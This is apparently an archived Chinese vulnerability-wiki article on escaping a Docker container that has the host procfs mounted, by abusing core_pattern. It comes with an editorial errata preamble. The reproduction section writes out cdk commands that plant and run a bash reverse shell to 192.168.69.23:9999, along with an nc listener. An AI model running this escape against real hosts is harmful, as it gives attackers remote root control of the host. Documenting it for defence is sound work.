


# 挂载宿主机-procfs-系统导致容器逃逸

> 图片资源校订（2026-10-04）：本篇曾被目录维护重新加入为空文件的图片，已按同篇历史 Git 引用及迁移记录恢复原始图像字节，并逐张查看像素；没有替换为其他文章截图，也没有修改图中原值。后文“未查看/仅保留引用”的旧说明描述此次校订前状态；来源截图不等于维护者复现，图片中未展示的结果仍未知。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Linux procfs core_pattern / Docker配置
- 文献类型：Docker危险procfs挂载案例
- 版本、权限及部署边界：容器root、宿主/proc可写挂载、无userns隔离及LSM/sysctl访问允许；具体内核/Docker/CDK版本未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 命令挂载/host_proc但说明写/host-proc，路径不一致可直接导致复现失败
2. 容器root与可写挂载不自动保证可改宿主sysctl，需实际权限/namespace/LSM条件和CDK实现；Docker默认不userns说法要限定运行模式
3. core_pattern管道触发宿主执行是配置/权限暴露案例，不对应新内核CVE；正文只有工具命令，无崩溃触发/宿主路径解析解释
4. 修改core_pattern是全局持久状态，缺原值备份/恢复、临时脚本清理与业务core dump影响，--rm仅删容器不保证恢复
5. 官方core手册/userns与CDK源码入口完整，未固定版本；监听截图未视检，不当已复现验证

### 操作风险

core_pattern管道触发宿主执行是配置/权限暴露案例，不对应新内核CVE；正文只有工具命令，无崩溃触发/宿主路径解析解释；修改core_pattern是全局持久状态，缺原值备份/恢复、临时脚本清理与业务core dump影响，--rm仅删容器不保证恢复

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://man7.org/linux/man-pages/man5/core.5.html>
- 原文参考链接（未重新核验）：<https://docs.docker.com/engine/security/userns-remap/>
- 原文参考链接（未重新核验）：<https://github.com/cdk-team/CDK>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 user namespace 时（Docker 默认情况下不会为容器开启 user namespace）。

一般来说，我们不会将宿主机的 procfs 挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从 [手册](http://man7.org/linux/man-pages/man5/core.5.html) 中我们能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在 `/proc/sys/kernel/core_pattern` 中使用新语法。如果该文件中的首个字符是管道符 `|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

我们可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

参考链接：

- https://docs.docker.com/engine/security/userns-remap/
- http://man7.org/linux/man-pages/man5/core.5.html
- https://github.com/cdk-team/CDK

## 环境搭建

通过以下命令启动一个漏洞环境，下载 [cdk](https://github.com/cdk-team/CDK)，将其拷贝进容器：

```
docker run -v /root/cdk:/cdk -v /proc:/host_proc --rm -it ubuntu bash
```

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

## 漏洞复现

我们利用 cdk 写入反弹 shell 并执行：

```
./cdk run mount-procfs /host_proc 'echo "/bin/bash -i >& /dev/tcp/192.168.69.23/9999 0>&1" > /tmp/rev'
./cdk run mount-procfs /host_proc "chmod +x /tmp/rev"
./cdk run mount-procfs /host_proc "bash /tmp/rev"


# 或者直接执行：
# ./cdk run mount-procfs /host_proc "bash -c '/bin/bash -i >& /dev/tcp/192.168.69.23/9999 0>&1'"
```




成功接收：

```
nc -vvl 9999
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
